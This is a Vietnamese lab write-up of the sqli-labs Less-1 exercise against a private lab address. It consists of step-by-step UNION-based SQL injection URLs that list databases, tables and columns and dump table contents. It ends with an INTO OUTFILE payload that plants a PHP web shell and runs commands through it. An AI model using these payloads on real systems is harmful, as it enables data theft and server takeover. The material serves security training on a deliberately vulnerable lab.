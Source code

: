 # Một số việc làm với được lesson-1.md

![](../images/lesson1/screenshot.png)

Ta sẽ xem là server sử dụng hệ quản trị cơ sở dữ liệu nào ta nhìn vào port và thấy sử dụng MYSQL 

1. Đăng nhập với giá trị id 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1'
```

![](../images/lesson1/screenshot_13.png)

2. Show tấ cả các DB có trong hệ thống
- Với command
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2,group_concat(SCHEMA_NAME) from information_schema.schemata limit 1,1 --+
```

![](../images/lesson1/screen_1.png)

Các DB sẽ cách nhau một dấu phẩy 

3. Show tất cả các bảng của từng DB một 
- Show tất cả các bảng của DB security 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' limit 1,1 --+
```

![](../images/lesson1/screen_2.png)

- Show tất cả các bảng của DB mysql 
```
http://192.168.80.225//sqli-labs/Less-1/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='mysql' limit 1,1 --+
```

![](../images/lesson1/screen_3.png)

- Show tất cả các bảng của DB challenges
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1 --+
```

![](../images/lesson1/screen_4.png)

Các DB khác tương tự và chỉ thay ở tên challenges

4. Show tên các cột trong từng bảng của từng DB 
- Show tên các trường trong bảng users trong  DB security
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 1,1 --+
```

![](../images/lesson1/screen_5.png)

- Show tên các trường trong bảng emails trong  DB security
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='emails' limit 1,1 --+
```

![](../images/lesson1/screen_6.png)

-  Show tên các trường trong bảng uagents trong  DB security
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='uagents' limit 1,1 --+
```

![](../images/lesson1/screen_8.png)

- Show tên các trường trong bảng referers trong  DB security

```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='referers' limit 1,1 --+
```

![](../images/lesson1/screen_9.png)

- Show dữ liệu tên trường của bảng db trong database mysql 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='mysql' AND table_name='db' limit 1,1 --+
```

![](../images/lesson1/screen_10.png)

Đọc dữ liệu trong một bảng 
- Bảng emails của security 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,group_concat(id),group_concat(email_id) from emails limit 1,1--+
```

![](../images/lesson1/screen_11.png)


- Show dữ liệu trong bảng của  một DB khác 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1'  union SELECT 1,2,group_concat(Host) from mysql.db limit 1,1--+
```

![](../images/lesson1/screen_12.png)

- INTO OUTFILE
- Điều kiện để có thể làm được là phải có một thư mục được cấp quyền thực thi 
```
[root@centos7 ~]# cd /var/www/html/
[root@centos7 html]# mkdir test
[root@centos7 html]# chmod 777 test/
```

```
192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2, "<?php system($_REQUEST['cmd']);?>" INTO OUTFILE '/var/www/html/tests/c.php' --+
```

![](../images/lesson1/screen_13.png)

- thực hiện remote code 
```
192.168.80.225/tests/c.php?cmd=id
```

![](../images/lesson1/screen_13.png)

Tương tự như thế thì đối với các bảng và các DB khác thì ta truy suất tương tự như thế và thay tên các trường các table các DB mà ta mong muốn. 